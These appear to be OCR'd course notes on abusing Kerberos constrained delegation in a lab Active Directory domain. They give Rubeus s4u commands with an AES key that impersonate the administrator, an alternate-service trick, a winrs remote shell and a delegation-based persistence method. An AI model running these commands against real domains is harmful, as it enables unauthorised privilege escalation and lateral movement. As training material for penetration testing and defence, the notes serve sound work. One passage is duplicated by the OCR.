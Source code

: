 Using ActiveDirectory module:

```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne
"$null"} -Properties msDS-AllowedToDelegateTo
```


Use Rubeus s4u module!

```
C:\AD\Tools\Rubeus.exe s4u /user:appsvc
/aes256:b4cb0430da8176ec6eae2002dfa86a8c6742e5a88448f1c2d6afc3781e114335 /impersonateuser:administrator /msdsspn:CIFS/us-
mssql.us.techcorp.local /domain:us.techcorp.local /ptt

```


Another interesting issue in Kerberos is that the delegation occurs not
only for the specified service but for any service running under the same
account. There is no validation for the SPN specified.
• The sname field is unencrypted and can be modified while requesting
the TGS for any SPN.
• This is huge as it allows access to many interesting services when the
delegation may be for a non-intrusive service!
account. There is no validation for the SPN specified.
• The sname field is unencrypted and can be modified while requesting
the TGS for any SPN.
• This is huge as it allows access to many interesting services when the
delegation may be for a non-intrusive service!


Using Rubeus:

```
C:\AD\Tools\Rubeus.exe s4u /user:appsvc
/aes256:b4cb0430da8176ec6eae2002dfa86a8c6742e5a88448f1c2
d6afc3781e114335 /impersonateuser:administrator
/msdsspn:CIFS/us-mssql.us.techcorp.local
/altservice:HTTP /domain:us.techcorp.local /ptt
```


```
winrs -r:us-mssql cmd.exe
```


#### Persistence - msDS-AllowedToDelegateTo

• Note that the msDS-AllowedToDelegateTo is the user account flag which
controls the services to which a user account has access to.
• This means, with enough privileges, it is possible to access any service
from a user – a neat persistence trick.
• Enough privileges? – SeEnableDelegationPrivilege on the DC and full
rights on the target user - default for Domain Admins and Enterprise
Admins.
• That is, we can force set 'Trusted to Authenticate for Delegation' and
ms-DS-AllowedToDelegateTo on a user (or create a new user - which is
more noisy) and abuse it later.
